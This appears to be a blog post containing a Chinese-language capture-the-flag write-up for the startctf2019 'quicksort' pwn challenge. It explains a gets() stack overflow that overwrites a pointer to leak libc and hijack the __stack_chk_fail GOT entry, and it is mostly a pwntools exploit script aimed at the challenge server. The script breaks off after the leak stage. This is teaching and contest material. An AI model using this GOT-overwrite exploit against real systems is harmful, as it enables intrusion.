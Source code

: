 ```yaml
---
layout: post
title: "startctf2019--pwn WriteUp"
date: 2019-04-30
categories: jekyll update
---
```


### startctf2019--pwn WriteUp
### pwn
### quicksort 
gets危险函数明显栈溢出，s与ptr的距离是0x1c，可以通过gets函数直接改写ptr来泄露地址，利用puts泄露libc地址，然后再改写__stack_chk_fail_got直接getshell。

详细代码如下：

```
from pwn import *
local = 0

if local:
	p = process("./quicksort")
	libc = ELF("/lib/i386-linux-gnu/libc.so.6")
else:
	p = remote("34.92.96.238",10000)
	libc = ELF("libc.so.6")

elf = ELF("quicksort")
atoi_got = 0x0804A038
free_got = elf.got["free"]
print hex(free_got)
free_plt = elf.plt["free"]
puts_plt = elf.plt["puts"]
__stack_chk_fail_got = elf.got["__stack_chk_fail"]
print hex(__stack_chk_fail_got)
start = 0x080489C9

bss = 0x0804A0b0
def exp():
	p.recv()
	p.sendline(str(2))
	
	
	p.recv()
	payload = str(puts_plt)
	payload = payload.ljust(0x10,"\x00")
	payload += p32(0x64) + p32(0) + p32(0) + p32(free_got)
	p.sendline(payload)
	
	p.recv()
	payload = str(start)
	payload = payload.ljust(0x10,"\x00")
	payload += p32(0x64) + p32(0) + p32(0) + p32(__stack_chk_fail_got)
	p.sendline(payload)
	
	p.recv()
	payload = str(puts_plt)
	payload = payload.ljust(0x10,"\x00")
	payload += p32(0x0) + p32(0) + p32(0) + p32(free_got) + "aaaa"
	p.sendline(payload)
	
	p.recvuntil(":\n\n")
```
